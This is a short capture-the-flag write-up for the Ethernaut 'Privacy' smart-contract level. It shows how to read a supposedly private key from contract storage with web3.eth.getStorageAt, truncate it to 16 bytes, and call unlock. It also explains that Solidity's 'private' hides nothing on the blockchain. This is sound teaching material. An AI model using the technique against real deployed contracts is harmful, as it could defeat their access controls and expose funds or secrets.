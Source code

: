 # Privacy

## Challenge Statement

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

    Understanding how storage works
    Understanding how parameter parsing works
    Understanding how casting works

Tips:

    Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.


## Analysis

The private data is stored in the contract, can we access the right piece of data?
e.g web3.eth.getStorageAt('<target address>', 1)
slot 4 seems to hold the bytes32 data we need which is then cast down to 16 bytes
key_32 = web3.eth.getStorageAt('0x9E829A37115350C2F754d8A6577c2Ec8abf940Cb', 5)
=d51be7a7185442e39eb1e5bd3b462b440c4a6b0f6ac15dfe358adfc2627e7907
take MS 16 bytes = 32 hex chars
python: x = ..; x[:32]
key = 0xd51be7a7185442e39eb1e5bd3b462b44
contract.unlock('0xd51be7a7185442e39eb1e5bd3b462b44')

## Solution

```
$ key_32 = web3.eth.getStorageAt('0x9E829A37115350C2F754d8A6577c2Ec8abf940Cb', 5)
$ python: x = ..; x[:32]
$ console : key = 0xd51be7a7185442e39eb1e5bd3b462b44
$ console : contract.unlock('0xd51be7a7185442e39eb1e5bd3b462b44')
```

## Moral

Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's getStorageAt(...) can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": How to read Ethereum contract storage